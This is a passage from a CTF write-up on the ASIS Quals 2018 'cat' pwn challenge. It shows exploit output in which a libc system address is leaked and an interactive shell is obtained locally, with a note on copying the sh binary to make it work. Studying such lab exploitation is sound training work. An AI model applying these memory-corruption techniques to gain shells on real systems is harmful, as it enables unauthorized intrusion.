 ```
The address of system is: 0x7f92672bf6a0
[*] Switching to interactive mode
 How old?
> sh: 1: n: not found
$ ks
sh: 2: ks: not found
$ ls
cat    exploit.py  notes           peda-session-ls.txt          sh
cat.xz    leak.py     peda-session-cat.txt   peda-session-w.procps.txt  try.py
core    mine.py     peda-session-dash.txt  readme.md              xpl.py
$ w
 19:01:30 up  5:07,  1 user,  load average: 1.09, 1.21, 1.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               07:20   11:41m 10:35   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ 
[*] Interrupted
[*] Stopped process './cat' (pid 10330)
```

As you can see, we popped a shell. One thing to note that was wierd, when I tried to execute commands like `ls` and `cat` it would work fine. However when I tried to call `/bin/sh`, it produced an error. I saw in other writeups that they were just able to call `sh` to get a shell, so I just copied that binary into my local directory and it worked out in the end. Once again this writeup is based off of this writeup: `https://kileak.github.io/ctf/2018/asisquals18-cat/`
